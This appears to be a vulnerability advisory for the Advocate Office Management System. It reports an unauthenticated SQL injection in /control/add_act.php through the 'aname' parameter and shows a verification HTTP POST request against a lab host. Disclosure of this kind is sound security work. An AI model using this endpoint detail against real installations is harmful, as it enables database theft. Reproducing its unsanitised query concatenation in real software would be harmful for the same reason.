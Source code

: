 

Advocate office management has an SQL injection vulnerability that could be exploited by an attacker to steal information or compromise a database without authentication.





Source code address：https://www.sourcecodester.com/php/17280/advocate-office-management-system-free-download.html



The vulnerability is located in the /control/add_act.php file, you can see that the code is to receive the POST request add, aname parameters, and then look down the aname parameters exist and SQL statement concatenate.

![image-20250314120756595](images/image-20250314120756595.png)



Vulnerability verification：

```
POST /office/kortex_lite/control/add_act.php HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

add=1&aname=1
```

![image-20250314120725220](images/image-20250314120725220.png)



































